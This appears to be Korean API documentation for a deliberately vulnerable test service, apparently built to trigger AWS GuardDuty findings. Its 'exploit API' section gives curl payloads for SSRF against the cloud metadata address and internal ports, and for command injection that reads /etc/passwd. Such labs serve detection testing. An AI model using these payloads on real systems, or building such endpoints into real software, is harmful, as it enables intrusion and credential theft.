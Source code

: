 ### GET /api/v1/files/list?prefix=
파일 목록을 조회합니다.

**응답**:
```json
{
  "파일목록": [
    {
      "파일명": "uploads/example.txt",
      "크기": 1024,
      "수정일시": "2024-01-01T00:00:00"
    }
  ]
}
```

---

## 💀 익스플로잇 API (테스트용)

### GET /api/v1/exploit/ssrf?url=
**취약점**: 서버 측 요청 위조 (SSRF)
**GuardDuty**: UnauthorizedAPICall:EC2/MaliciousIPCaller

외부 또는 내부 서비스에 요청을 보냅니다.

**SSRF 페이로드**:
```bash
# AWS 메타데이터 서비스 접근
curl "http://localhost:8000/api/v1/exploit/ssrf?url=http://169.254.169.254/latest/meta-data/"

# 내부 서비스 스캔
curl "http://localhost:8000/api/v1/exploit/ssrf?url=http://localhost:22"
```

**응답**:
```json
{
  "URL": "http://httpbin.org/ip",
  "상태_코드": 200,
  "헤더": {"Content-Type": "application/json"},
  "내용": "{\"origin\": \"1.2.3.4\"}"
}
```

### GET /api/v1/exploit/command-injection?cmd=
**취약점**: 명령어 인젝션

시스템 명령어를 실행합니다.

**명령어 인젝션 페이로드**:
```bash
curl "http://localhost:8000/api/v1/exploit/command-injection?cmd=whoami"
curl "http://localhost:8000/api/v1/exploit/command-injection?cmd=ls -la"
curl "http://localhost:8000/api/v1/exploit/command-injection?cmd=cat /etc/passwd"
```
